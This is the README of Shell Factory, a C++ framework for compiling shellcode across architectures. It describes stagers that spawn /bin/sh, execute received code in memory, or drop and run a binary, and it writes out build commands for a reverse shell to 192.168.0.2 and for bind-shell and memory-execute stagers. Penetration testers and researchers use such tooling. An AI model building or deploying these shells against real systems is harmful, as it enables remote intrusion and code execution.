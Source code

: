 # Shell Factory

**Shell Factory** is a framework for compiling shellcodes from a C++ source for
multiple systems and architectures.

It is composed of multiple parts:

- a Rakefile for compiling and linking against different compilers and architectures.
- the factory, a set of C++ headers to generate system calls for different systems and architectures.
- picolib, a generic C++ library relying on the system call factory to abstract interactions the target system.

The shellcode is compiled as a single compilation unit with common optimizations to reduce its code size.

The resulting file is supposed to be a single binary blob executable from anywhere in memory, starting at offset 0.

## Requirements

- Rake

### Linux

- `binutils`
- `g++` or `clang++`

### OS X

- `Xcode` command-line tools

## Basic usage

Put your shellcode source file in the `shellcodes` directory, then compile it with `rake <shellcode>`.

For example, create a template file named `shellcodes/template.cc` :

```c++
#include <factory.h>
#include <pico.h>

using namespace Pico;

SHELLCODE_ENTRY {
    Process::exit(0);
}
```

Then compile it with: `rake template`. On a Linux amd64 system, this will generate the files `bins/template.elf` and `bins/template.x86_64-linux.bin`.

```raw
$ objdump -d bins/template.elf

00000000004000b0 <_start>:
  4000b0:       31 ff                   xor    %edi,%edi
  4000b2:       b8 e7 00 00 00          mov    $0xe7,%eax
  4000b7:       0f 05                   syscall
```

## Default shellcodes

Three generic stager shellcodes are provided in the `shellcodes` directory:

- `shellexec` : runs a standard `/bin/sh` shell or any specified command.

- `memexec` : allocates executable memory, receives data and executes it.

- `dropexec` : reads data, drops an executable file on the system and executes it.

## Channels

Channels are an abstraction layer that allows to use different kind of data
streams configurable through compilation variables: files, sockets, opened file
descriptors.

They are typically used by `shellexec`, `memexec` and `dropexec` to receive and
send data. The default channels used are the standard input/output when none are
specified.

### Examples

#### Reverse shell on the local network

```sh
rake shellexec CHANNEL=TCP_CONNECT HOST=192.168.0.2 PORT=2222
```

#### Bind-shell TCPv6

```sh
rake shellexec CHANNEL=TCP6_LISTEN HOST=::1 PORT=1111
```

#### Reverse memory execute over SCTPv6

```sh
rake memexec CHANNEL=SCTP6_CONNECT HOST=fe80::800:27ff:fe00:0 PORT=3333
```

## Advanced usage

### Switching compilers

Using the `CC` variable to select your compiler.

```sh
rake shellexec CC=clang++
```

### Cross-compilation

You will require a cross-compiler and the headers of the system you are targeting.

```sh
rake memexec CHANNEL=TCP_LISTEN HOST=0.0.0.0 PORT=1337 TRIPLE=aarch64-linux-gnu
```

Use the variable `SYSROOT` to specify the root of the target filesystem.

### Debugging

The code is by default massively inlined which makes it particularly tedious to
debug. If you encounter a problem, try decreasing the inline level through the
`RELAX_INLINE` parameter.

Also, try specifying `OUTPUT_DEBUG=1` which will generate an executable file with symbols.

### Producing smaller code

Some parameters can be used to reduce the code size in some circumstances:

- `NO_ASSERTS=1` : removes any assert checks from the final shellcode

- `NO_ERROR_CHECKS=1` : removes error checks at system call returns

Do not use format functions (`printf`, `sprintf`, `String::sprintf`, and so
on.) as they will increase your code size significantly.

Avoid using the C++ `new` operator as it will instanciate a custom heap which
constitutes a relatively large piece of code.

## Supported targets

|          | x86 | amd64 | ARM | Aarch64 | PowerPC | SH4 | MIPS |
|----------|-----|-------|-----|---------|---------|-----|------|
| Linux    | ✓   | ✓     | ✓   | ✓       | ✓       | ✓   | ∼    |
| FreeBSD  |     | ✓     | ∼   |         |         |     |      |
| OS X     |     | ∼     |     |         |         |     |      |

Items marked as ∼ are a work in progress and are not fully implemented yet.

## Caveats

- Passing system call arguments by stack if not yet fully supported.

- No Windows support yet.

- Resulting shellcodes will not enforce any specific charset and may contain null bytes. You will need to use a shellcode encoder for that purpose.

## Authors

- Guillaume Delugré
